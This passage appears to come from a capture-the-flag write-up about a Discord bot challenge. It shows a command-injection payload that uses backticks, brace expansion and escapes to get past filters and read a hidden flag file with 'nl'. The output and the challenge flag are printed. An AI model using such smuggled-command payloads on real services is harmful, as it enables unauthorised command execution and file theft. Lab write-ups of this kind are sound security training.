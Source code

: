The problem does not come from the file, but from `cat`. In fact, it is not executable, but you can only guess it, you just know for sure that it does not work. Fortunately, there are many other executables available for you to read this file. Let's try with `nl`.

```bash
!beautify "\'`{nl,.fl\ag.txt}`\'"
```

```
You will be run over by a bus.
```

Welp thank you Rot, I really like knowing how I will die. But what matters to me is the contents of the `.flag.txt` file, would you please be gentle?

```bash
!beautify "\'`{n\l,.fl\ag.txt}`\'"
```

```
__       __ 
\ \     /_ |
 \ \     | |
  \ \    | |
   \ \   | |
    \_\  |_|


  _____ _    _ ___  ___   _______  __           ___          _                 
 / ____| |  | |__ \|__ \ / /  __ \/_ |         / _ \        | |                
| |  __| |__| |  ) |  ) | || |  | || |___  ___| | | |_ __ __| |  ___ _ __ ___  
| | |_ |  __  | / /  / / / | |  | || / __|/ __| | | | '__/ _` | / __| '_ ` _ \ 
| |__| | |  | |/ /_ / /\ \ | |__| || \__ \ (__| |_| | | | (_| || (__| | | | | |
 \_____|_|  |_|____|____| ||_____/ |_|___/\___|\___/|_|  \__,_| \___|_| |_| |_|
                         \_\                                ______             
                                                           |______|            
     _   _       _ ____       _  __                     __ _   _        __ _ _ 
    | | (_)     (_)___ \     | |/_ |                   /_ | | | |      / _(_) |
  __| |  _ _ __  _  __) | ___| |_| | ___  _ __ __      _| | |_| |__   | |_ _| |
 / _` | | | '_ \| ||__ < / __| __| |/ _ \| '_ \\ \ /\ / / | __| '_ \  |  _| | |
| (_| | | | | | | |___) | (__| |_| | (_) | | | |\ V  V /| | |_| | | | | | | | |
 \__,_| |_|_| |_| |____/ \___|\__|_|\___/|_| |_| \_/\_/ |_|\__|_| |_| |_| |_|_|
    ______     _/ |                          ______               ______       
   |______|   |__/                          |______|             |______|      
 _   ____         ____     
| | |___ \        \ \ \    
| |_  __) |_ __ ___| \ \   
| __||__ <| '__/ __|\ \ \  
| |_ ___) | |  \__ \/ /\ \ 
 \__|____/|_|  |___/ |  \_\
                  /_/      
```

**Flag:** `GH22{D1sc0rd_cmd_inj3ct1on_w1th_filt3rs}` (a bit hard to read)

## Hints
